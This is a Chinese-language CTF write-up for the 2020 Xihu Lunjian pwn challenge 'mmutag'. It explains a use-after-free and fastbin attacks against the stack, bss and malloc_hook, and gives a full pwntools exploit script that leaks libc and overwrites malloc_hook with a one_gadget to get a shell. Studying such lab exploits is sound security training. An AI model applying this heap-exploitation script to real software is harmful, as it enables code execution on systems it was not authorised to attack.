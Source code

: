 ```yaml
---
layout: post
title: 西湖论剑2020
description: pwn-mmutag
categories: CTF/PWN


---
```




<!-- more -->

# 前言

这道题非常简单,第一种方法是fastbin_attack返回到栈中，然后泄漏canary和libc，然后覆盖返回地址为One_Gadget

我自己脑子抽风用了第二种方法，也是提升自己布置堆风水的能力

# 逻辑分析

1.这道题一开始给了我们一个gift:栈上的地址，分配堆的大小都是0x68,有个UAF的漏洞，但是只能布置10个堆，同时可以修改栈上的内容，并输出栈上的内容

![](/images/character8/mmutag1)

# 思路

首先这道题无论分配和释放都只能用到fastbin,所以只能用fastbin_attack,同时给了我们栈上的地址,且能输出栈上的内容,那毫无疑问是用fastbin_attack分配到栈中泄漏地址和ROP了,但同时我们可以注意到我们分配的栈上的地址是0x7f开头的,我们可以控制bss段heap的分配位置，如果我们能构成p64(0x7f)，也是能分配到bss上进行操作的,所以我运用了堆的思想又分配到了bss段中，这样可以多次使用fastbin_attack了，然后fastbin_attack分配到malloc_hook-0x23将malloc_hook修改为one_gadget然后getsehll

# 代码

```python
from PwnContext import *
try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')
if __name__ == '__main__':        
    context.terminal = ['tmux', 'splitw', '-h'] # uncomment this if you use tmux
    context.log_level = 'debug'
    # functions for quick script
    s       = lambda data               :ctx.send(str(data))        #in case that data is an int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data)) 
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
    # misc functions
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))
    leak    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))
    debugg = 1
    logg = 0
    ctx.binary = './mmutag'
    ctx.remote_libc = './libc.so.6'
    ctx.debug_remote_libc = False # True for debugging remote libc, false for local.
    #ctx.breakpoints = [0x,0x]
    ctx.symbols = {'heap_pool':0x6020c0}
    if debugg:
    	rs()
    else:
		ctx.remote = ('183.129.189.62', 58604)
		rs(method = 'remote')
    if logg:
	    context.log_level = 'debug'
    libc = ctx.libc # ELF object of the corresponding libc.
    def Choice(num):
    	sla('choise:',num)
    def Add(idx,content=" "):
    	Choice(1)
    	sla('id:',idx)
    	sa('content',content)
    	ru('OK')
    def Del(idx,):
    	Choice(2)
    	sla('id',idx)
    	ru('OK')
    def Set_stack(content):
    	Choice(3)
    	s(content)
    	ru('Your')
    context.arch = "amd64"
    payload = p64(0)+p64(0x71)+p64(0)+p64(0)
    sla('please input you name:',payload)
    ru("this is your tag: 0x")
    stack_addr = r(12)
    stack_addr = int(stack_addr,16)
    success("stack_addr:0x%x",stack_addr)
    sleep(0.1)
    sla('choice',2)
    Add(3)
    Add(4)
    Del(3)
    Del(4)
    Del(3)
    payload = p64(0)+p64(0x71)+p64(0)+p64(0)
    Set_stack(payload)
    Add(5,p64(stack_addr-0x40))
    Add(6)
    Add(7,p64(0))
    Add(1,'a'*0x40+'b'*0x8)
    Set_stack('a'*0x20)
    ru('b'*0x8)
    libc_base = uu64(r(6))-0x20840
    success('libc:0x%x',libc_base)
    malloc_hook = libc_base + 0x3c4aed
    one_gadget = libc_base + 0xf0364
    Del(3)
    Del(4)
    Del(3)
    payload = p64(0x6020c5)
    Add(8,payload)
    Add(9)
    Add(10)
    Add(2,'\x00'+p64(0)*6)
    Del(10)
    Del(9)
    Del(10)
    Add(3,p64(malloc_hook))
    Add(4)
    Add(5)
    Add(6,'\x00'*3+p64(one_gadget)*8)
    success("one_gadget:0x%x",one_gadget)
    Set_stack('\x00'*0x20)
    success('one_gadget:0x%x',one_gadget)
    Choice(1)
    sla('id:',8)
    irt()

```

如果想看第一种方法的可以参考：https://bbs.pediy.com/thread-262526.htm
